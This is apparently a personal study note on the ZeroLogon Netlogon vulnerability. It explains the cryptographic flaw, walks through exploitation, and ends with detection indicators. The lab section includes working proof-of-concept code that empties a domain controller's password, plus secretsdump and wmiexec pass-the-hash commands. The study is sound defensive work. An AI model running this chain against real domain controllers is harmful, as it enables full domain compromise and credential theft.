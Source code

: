 ```yaml
---
title: "ZeroLogon"
date: 2022-05-03
draft: false
---
```


## NetLogon Protocol

- **Overview**
	- is an RPC interface *(Windows domain controllers)*
	- used 4 user and machine authentication *(e.g logging in to servers using NTLM, update password)*
	- available over TCP through a dynamic port set by the *portmapper* service OR through an SMB pipe on `445`
	- it uses a customized cryptographic protocol to let a client *(a domain-joined computer)* and server *(the domain controller)* prove to each other that they both know a shared secret *(i.e hash of the client's account password)*
- initial auth handshake
    - ![](/img/auth_handshake_zerologon.png)

## AES-CFB8 insecure use
- The cryptographic primitive both the client and server use to generate credential values is implemented in a function called `ComputeNetlogonCredential` *(takes an 8-byte input & performs transformasion w the secret esssion key)*
- To acomplish this it uses the [CFB8 (8-bit cypher feedback) mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#CFB)
    - ![](/img/aes_cfb8.png)
- Instead of generating the Initialization Vector *(IV)* randomly, the `ComputeNetlogonCredential` function **defines it as a fixed value which consits of 16 zero bytes** => this violates the requirments for using AES-CFB8 securely
- Ok but what could go wrong? Well: **for 1 in 256 keys, applying AESCFB8 encryption to an all-zero plaintext will result in all-zero ciphertext**
    - ![](/img/aes_cfb8_broken.png)

## Exploitation
![](/img/exploit_zerologon.png)
### 1. Spoofing the client credential
- after exchanging challenges with a `NetrServerReqChallenge` call
- a client authenticates by doing a `NetrServerAuthenticate3` call, which has a parameter `ClientCredential` *(that is computed by applying the `ComputeNetlogonCredential` to the client challenge)*
- because we have control over the client challenge there's nothing stopping us to set it to 8 zeroes => for 1 in 256 session keys, the correct `ClientCredential` will also consist of 8 zeroes
- session key will be different for every authentication attempt
- computer accounts are not locked after invalid login attempt => we can try a bunch of times until we hit a key & authentication succeeds
### 2. Disabling signing & sealing
- ok we can bypass the auth call, but we still have no idea what the value of the session key is
- it becomess problematic due to Netlogon'ss transport encryption mechanism *(RPC signing & sealing)*, which uses this key but a different scheme than `ComputeNetlogonCredential`
- luckily, signing & sealing is optional => so we can simply omit the flag in the `NetrServerAuthenticate3` call & continue
### 3. Spoofing a call
- even when encryption is disabled, every call must contain a so-called `authenticator` value which is computed by applying `ComputeNetlogonCredential(w session key)` to the `ClientStoredCredential + Timestamp`
  - `ClientStoredCredential`: incrementing value maintained by the client & intialised to the same value as the `ClientCredential` we provided => will be 0
  - `Timestamp`: the current Posix time; server doesn't place many restriction on this value => simply pretend that it’s January 1st, 1970 = 0
- `ComputeNetlogonCredential(0) = 0` => we can authenticate our first call by simply providing an all-zero authenticator & timestamp
### 4. Changing computer's AD password
- we can leverage the `NetrServerPasswordSet2` call to set a new password for the client
        - password is not hashed but it is encrypted with the session key by using again `CFB8` with an all-zero IV
- plaintext password structure in the Netlogon protocol consists of 516 bytes *(last 4 being the pass len)*
- provide 516 zeroes => decryption to 516 zeroes => zero-length password *(setting empty passwords for a computer is not forbidden)* => can set an empty password for any computer in the domain
- afterwards, we can simply set up a new Netlogon connection on behalf of this computer
> **NOTE**: When changing a computer password in this way it is only changed in the AD. The targeted system itself will still locally store its original password.

### Lab
- **Perequistes**
	- check out the [POC released by secura](https://github.com/SecuraBV/CVE-2020-1472)
	- install [impacket]():
		```bash
		python3 -m pip install virtualenv
		python3 -m virtualenv impacketEnv  
		source impacketEnv/bin/activate
		pip install git+https://github.com/SecureAuthCorp/impacket
		```
	- setup a local Domain Name Controller *([THM zer0logon room](https://tryhackme.com/room/zer0logon))*
- Modify `zerologon_tester.py` to reset the domain controller password & run it: `python zerologon_tester.py DC01 10.10.45.187`
	```python
	...
	
	def build_new_pass_req(dc_handle, target_computer):
    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/14b020a8-0bcf-4af5-ab72-cc92bc6b1d81
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    newPassRequest['ComputerName'] = target_computer + '\x00'

    # https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/76c93227-942a-4687-ab9d-9d972ffabdab
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp']  = b'\x00' * 4
    newPassRequest['Authenticator'] = auth

    # consists of 516 bytes of random padding: junk + password + length of pass (last 4 bytes)
    newPassRequest['ClearNewPassword'] = b'\x00' * 516
    return newPassRequest

	def try_zero_authenticate(dc_handle, dc_ip, target_computer):
		...
		
		# It worked!
    	assert server_auth['ErrorCode'] == 0
    	server_auth.dump()
    	print(f"server challenge {serverChall}")

    	try:
        	# Trigger password reset
        	print(f"Attempting password reset on {target_computer}...")
			newPassReq = build_new_pass_req(dc_handle, target_computer)
			res        = rpc_con.request(newPassReq)
			res.dump()
		except Exception as e:
        	print(e)
		return rpc_con

	...
	```
- Dump hashes with [impacket's secretsdump.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py): `python secretsdump.py -just-dc HOLOLIVE/DC01\$@10.10.45.187`
- Pop shell w [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py) by passing the hash: `python wmiexec.py HOLOLIVE/Administrator@10.10.45.187 -hashes aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568`

## Packet Analysis
TODO

## Mitigation & Detection

- many tries to authenticate unssuccessfully
- zero key stream in auth netlogon pkgs
- ssign & sseal flags are disabled
- timesstamp in auth value is 0
- choosing cipher suite of AES-CFB8

wirehark rule to detect it *(based on timestamp, negotiation opts, challenge & iv?)*

---

## References
- [Zerologon (CVE-2020-1472): An Unauthenticated Privilege Escalation to Full Domain Privileges](https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
- [Zerologon Attack Explained Technical - CVE-2020-1472](https://www.youtube.com/watch?v=EzVmGQr2IFw)
- [Whitepaper: secura](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)
